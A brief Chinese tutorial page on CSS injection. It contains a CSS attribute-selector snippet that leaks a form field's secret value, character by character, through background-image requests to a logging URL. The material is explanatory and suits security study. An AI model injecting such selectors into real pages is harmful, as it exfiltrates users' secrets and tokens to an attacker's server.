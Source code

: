 CSS 注入
================================

基本介绍
--------------------------------
CSS注入最早开始于利用CSS中的 ``expression()`` ``url()`` ``regex()`` 等函数或特性来引入外部的恶意代码，但是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。

CSS selectors
--------------------------------

::

    <style>
        #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
        #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
        #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
        [...]
    </style>
    <form action="http://example.com" id="form2">
        <input type="text" id="secret" name="secret" value="abc">
    </form>


上图是利用CSS selectors完成攻击的一个示例

